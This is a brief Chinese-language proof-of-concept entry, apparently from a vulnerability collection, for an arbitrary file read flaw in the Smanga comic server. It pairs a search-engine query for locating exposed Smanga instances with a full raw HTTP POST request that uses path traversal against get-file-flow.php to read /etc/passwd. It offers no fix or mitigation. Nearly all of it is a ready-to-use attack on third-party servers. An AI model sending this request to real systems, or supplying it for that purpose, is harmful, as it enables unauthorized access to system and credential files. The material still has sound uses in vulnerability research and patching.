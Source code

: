 # Smanga get-file-flow存在任意文件读取漏洞

# 一、漏洞简介
Smanga无需配置，docker直装的漫画流媒体阅读工具。以emby plex为灵感，为解决漫画阅读需求而开发的漫画阅读器。Smanga get-file-flow存在任意文件读取漏洞。

# 二、影响版本
+ Smanga

# 三、资产测绘
+ hunter`web.title=="smanga"`
+ 特征

![1704896644693-d87321ff-18ab-47ce-a047-0b7cbeb372e0.png](./img/SNJ9xiUHBOpb3lvb/1704896644693-d87321ff-18ab-47ce-a047-0b7cbeb372e0-090368.png)

# 四、漏洞复现
```java
POST /php/get-file-flow.php HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ak;q=0.8
Cookie: thinkphp_show_page_trace=0|0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

file=../../../../../../../../etc/passwd
```

![1704897506388-882229d5-e4a4-452e-9b33-c85efb044957.png](./img/SNJ9xiUHBOpb3lvb/1704897506388-882229d5-e4a4-452e-9b33-c85efb044957-170447.png)



> 更新: 2024-02-29 23:55:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fgkpb2mlbe6egiwy>